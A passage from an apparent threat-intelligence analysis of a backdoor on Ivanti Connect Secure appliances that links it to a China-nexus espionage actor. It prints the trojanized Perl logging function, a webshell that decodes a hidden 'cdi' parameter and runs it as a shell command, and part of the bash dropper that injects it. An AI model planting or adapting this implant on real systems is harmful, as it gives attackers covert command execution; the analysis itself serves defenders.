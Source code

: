 With the knowledge of now, the methodology and characteristics of the backdoor [closely resemble](https://cloud.google.com/blog/topics/threat-intelligence/china-nexus-exploiting-critical-ivanti-vulnerability) the suspected China-nexus espionage actor tracked as UNC5221 (Mandiant) or UTA0178 (Volexity). At the time, IBM [wrote a blogpost](https://www.ibm.com/think/x-force/exploitation-of-exposed-ivanti-vulnerabilities) that mentioned the involvement of UNC5221 based on other reporting, but also admitted they could not corroborate these findings with sufficient confidence. The type, way of dropping, and chosen locations of the webshell seem to be similar to the later Ivanti Connect Secure webshells attributed to UNC5221, such as the webshells related to [SPAWNANT](https://cloud.google.com/blog/topics/threat-intelligence/ivanti-post-exploitation-lateral-movement) installer and [PHASEJAM](https://cloud.google.com/blog/topics/threat-intelligence/ivanti-connect-secure-vpn-zero-day) dropper.

```perl
sub Msg {
  my ($event, $level, $data) = @_;
  my ($pkg, $file, $line) = caller;
  my $ua = $ENV{HTTP_USER_AGENT};
  my $req = $ENV{QUERY_STRING};
  my $qur = "<redacted>";
  my @param = split(/&/, $req);
  if (index($ua, $qur) != -1) {
    if ($param[1]){
      my @res = split(/=/, $param[1]);
      if ($res[0] eq "cdi"){  # Include command in cdi parameter
        $res[1] =~ s/([a-fA-F0-9][a-fA-F0-9])/chr(hex($1))/eg;
        $res[1] =~ tr/!-~/P-~!-O/;
        system(${res[1]});
      }
    }
  }
  $file = substr ($file, rindex ($file, "/")+1);
  # Prevent C printf format codes to make it through...
  $data =~ s/%/%%/g;
  Msg_impl ($file, $line, $event, $level, $data);
}

```
<span class="centered-text">Listing 11: Modified function in the /home/perl/DSLog.pm file</span>

Listing 11 shows the altered `Msg()` function on line 102 in the `/home/perl/DSLog.pm` file that includes the implant. DSLog.pm is normally a legitimate script that is used to log events on the Ivanti appliance. Commands can be executed through the shell by adding the (URL-encoded) command to the request with the `cdi` parameter. The added code is injected using the exploit shown in Listing 10, but this time with the base64-encoded payload shown in Listing 12. The payload checks if the device has already been infected, after which it writes the implant to the DSLog file and performs some anti-forensics. 

```bash
# Set paths to target files
DESTFILE="/home/perl/DSLog.pm"
CLFILE="/home/perl/DSLogMB.pm"

# Check if the file already contains HTTP_USER_AGENT
if cat "$DESTFILE" | grep -q 'HTTP_USER_AGENT'; then
    echo 'OK'
else
    # Inject Perl code starting at line 102
    sed -i '102i\
my $ua = $ENV{HTTP_USER_AGENT};\
my $req = $ENV{QUERY_STRING};\
my $qur = "<redacted>";\
my @param = split(/&/, $req);\
if (index($ua, $qur) != -1) {\
    if ($param[1]) {\
        my @res = split(/=|,/, $param[1]);\
        if ($res[0] eq "cdi") {\
```